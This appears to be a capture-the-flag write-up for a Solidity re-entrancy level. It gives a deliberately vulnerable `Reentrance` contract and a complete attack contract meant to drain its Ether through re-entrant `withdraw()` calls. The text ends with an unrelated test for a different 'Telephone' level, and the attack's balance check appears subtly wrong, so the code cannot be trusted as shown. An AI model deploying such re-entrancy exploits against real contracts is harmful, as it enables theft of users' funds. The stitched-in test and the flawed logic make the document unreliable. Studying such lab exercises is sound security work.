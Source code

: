 # Objective

- Drain all funds from the contract

# Proof of Concept

The contract is vulnerable to re-entrancy attacks. The `withdraw()` function
will send the `_amount` sent in parameter back to `msg.sender`. Since the
sender receives some Ether, it will trigger its `receive()` function which can
in turn call-back the `withdraw()` function from the main contract (thus
re-enter into the function, akin to recursive fns).

**Reentrance.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

contract Reentrance {
    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to] += msg.value;
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result, ) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            unchecked {
                balances[msg.sender] -= _amount; // unchecked to prevent underflow errors
            }
        }
    }

    receive() external payable {}
}
```


**ReentranceAttack.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

interface IReentrance {
    function donate(address _to) external payable;

    function balanceOf(address _who) external view returns (uint256 balance);

    function withdraw(uint256 _amount) external;
}

contract ReentranceAttack {
    IReentrance victimContract;
    uint256 initBalance;

    constructor(address _victimAddress) {
        victimContract = IReentrance(_victimAddress);
    }

    function attack() external payable {
        require(msg.value > 0.01 ether, "!enough ether");
        initBalance = msg.value;

        // Initial setup require a donation to kickstart the attack
        victimContract.donate{value: initBalance}(address(this));
        victimContract.withdraw(initBalance);
    }

    function loopBack() private {
        // Compute remaining balance in the Victim contract
        uint256 remainingBalance = victimContract.balanceOf(
            address(victimContract)
        );

        if (remainingBalance > 0) {
            // Compute minimum amount between Attack contract and Victim contract
            uint256 minAmount = remainingBalance < initBalance
                ? remainingBalance
                : initBalance;
            victimContract.withdraw(minAmount);
        }
    }

    receive() external payable {
        loopBack();
    }
}
```

```solidity
function testTelephoneHack() public {
    TelephoneAttack attackContract = new TelephoneAttack(levelAddress);
    emit log_named_address("tx.origin", tx.origin);
    emit log_named_address("msg.sender", attacker); // vm cheatcode set to attacker
    attackContract.attack();

    assertEq(telephoneContract.owner(), attacker);
}
```
